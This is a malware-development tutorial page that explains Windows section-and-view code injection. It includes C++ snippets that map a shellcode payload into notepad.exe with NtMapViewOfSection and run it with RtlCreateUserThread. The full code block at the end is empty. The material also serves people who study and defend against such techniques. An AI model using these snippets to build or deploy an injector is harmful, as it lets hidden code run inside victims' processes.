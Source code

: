 ```yaml
---
title: Sections and Views Injection
category: Maldev-Code Injection
order: 2
---
```


This technique has a different way to inject the code on a remote process. MapView Code Injection uses typicall internal operation between processes. 

It is common that one process create a new section and shares the data with another process. Every memory section corresponds to one or more views. A view of a section referes to the specific part of the sectio htat is visible and accesible to a process.

So we can map a section to the remote process and create a view in order to share the shellcode to the remote process.

* `NtCreateSection`: Create a new page-file-backed section.
* `NtMapViewOfSection`: Map the section view on the local process.
* `memcpy`: Copy the payload to the section.
* `NtMapViewOfSection`: Map the same section view in the target process.
* `RtlCreateUserThread`: Execute the payload on the remote process.


# Analysis

First we need to create a Section handle on our local process with `PAGE_EXECUTE_READWRITE` rights.


```cpp
status = pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, (PLARGE_INTEGER) &payload_len, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

As we can see the new handle `0xAC` was successfuly created with `FULL_CONTROL` cause the section access was defined with `SECTION_ALL_ACCESS`. We only need `SECTION_MAP_READ` `SECTION_MAP_WRITE` and `SECTION_MAP_EXECUTE` but in that example a full control was set.

![](/rtnotes/images/sections_01.png)

Once created the section we need to map to a new local view. A `RW` rights are needed in order to copy the payload to the section.

```cpp
status = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_READWRITE);
```

When the section is already mapped, we can see the memory space on the local process.

![](/rtnotes/images/sections_02.png)

Now the payload can be copied to the local view.

![](/rtnotes/images/sections_03.png)

In order to execute the payload on a remote process we need to create a remote view of the same section. To do that we need the handler of the target process.

```cpp
pid = FindProcess("notepad.exe");
hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
status = pNtMapViewOfSection(hSection, hProc, &pRemoteView, NULL, NULL, NULL, (SIZE_T *)&payload_len, ViewUnmap, NULL, PAGE_EXECUTE_READ);
```

As we can see the section was successfuly mapped to the remote process and the payload was delivered on memory.

![](/rtnotes/images/sections_04.png)

Finally we can use `RtlCreateUserThread` to execute the remote view.

```cpp
pRtlCreateUserThread(hProc, NULL, FALSE, 0, 0, 0, pRemoteView, 0, &hThread, &cid);
if(hThread != NULL){
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
}
```

![](/rtnotes/images/sections_05.png)

# Code

Example of MapView injection:

```cpp


```